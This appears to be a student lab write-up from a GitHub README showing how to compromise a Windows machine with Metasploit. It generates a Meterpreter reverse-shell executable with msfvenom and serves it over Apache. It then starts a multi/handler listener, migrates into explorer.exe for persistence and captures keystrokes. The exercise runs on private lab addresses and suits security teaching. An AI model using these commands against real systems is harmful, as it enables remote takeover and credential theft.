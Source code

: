 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### ifconfig
192.168.91.247

![Alt text](img/ipconfig6(1).png)

Find the attackers ip address using ifconfig

### msfvenom

![Alt text](img/msfvenom(1)new.png)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### copy the fun.exe into apache/var/www/html/

![Alt text](img/systemctl(1).png)

copy fun.exe
start apache server
sudosystemctl apache2 start
check the status of apache2

### msfconsole

![Alt text](img/msfconsolehelp.png)

invoke msfconsole
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

### Multihander,setpayload,exploit



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine:
http://192.168.91.247/

![Alt text](img/new1.png)

![Alt text](img/catarul.png)

![Alt text](<img/VirtualBox_windows 7_21_04_2025_13_34_08(2).png>)

![Alt text](img/folderforfunexe.png)

![Alt text](img/usemulti.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Alt text](img/ps.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Alt text](img/netstat.png)

### Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Alt text](img/keyscan_startanddump.png)

![Alt text](img/output.png)

![Alt text](img/keyscan_startanddump.png)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
